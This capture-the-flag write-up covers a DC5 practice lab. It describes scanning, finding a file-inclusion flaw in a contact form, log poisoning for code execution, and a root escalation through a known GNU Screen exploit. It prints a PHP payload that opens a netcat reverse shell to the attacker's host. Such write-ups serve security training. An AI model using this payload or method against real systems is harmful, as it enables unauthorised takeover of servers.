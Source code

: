 # DC5 Offensive Security Community Writeup
## Level: Intermediate

![logo](1.png)

## Scanning
We launch **nmap** with scripts and software versions on all ports.

![](2.png)

## Enumeration

We access the website, review the source code and the different sections, but there is nothing interesting.

![](3.png)

We reviewed the site again, specifically the *"Contact"* section. There we find a contact form, we fill it with arbitrary data and we see that it is sent by GET method.

![](4.png)

If we reload the file without specifying the variable, we see that the copyright year is different, so it is very likely that the application is embedding files through variables (LFI?, Path traversal?).

![](5.png)

We launch the **Wfuzz** tool with a medium dictionary, enumerate a new variable.

![](6.png)

Yes, it is vulnerable to local file inclusion (LFI).

![](7.png)

Previously, we saw in the headers that the server has an **Nginx** deployed, so we load the configuration file and get the paths where it stores logs.

![](9.png)

## Exploitation
Perfect, now we will do some tests to know the file that could help us to execute malicious code.

#### Testing Remote Code Execute (RCE)
![](10.png)

#### Result testing Remote Code Execute (RCE)
![](11.png)

Great, having clear in which file we can evidence code execution, let's make a proof of concept that allows us to execute remote system commands.

We read the flag of *user.txt*.

#### PoC Log Poisoning + RCE
![](12.png)

#### Result PoC Log Poisoning + RCE
![](13.png)

Perfect! Well, we are not going to complicate and we are going to execute directly a reverse shell, but remember to put a **netcat** on the listen in our Kali.

#### Payload
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.204 443 >/tmp/f');?>

```
#### Request with reverse shell code
![](14.png)

#### Result reverse shell code
![](15.png)

## Privilege Escalation
We ran some of our favorite recognition scripts (Ex. linpeas.sh) and listed a "**Screen**" in version 4.5.0.
![](16.png)

This binary has a known exploit that would allow us to escalate root privileges: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

In my case, I compiled the necessary files and hosted them on the victim. Once downloaded, I executed the following two commands to escalate privileges to root and read the proof.txt file.
![](17.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

![](imgs/linkedin.png){ width=4% align="center" } [David-Uton](https://www.linkedin.com/in/david-uton/)
![](imgs/twitter.png){ width=5% align="center" } [@David_Uton](https://twitter.com/David_Uton)
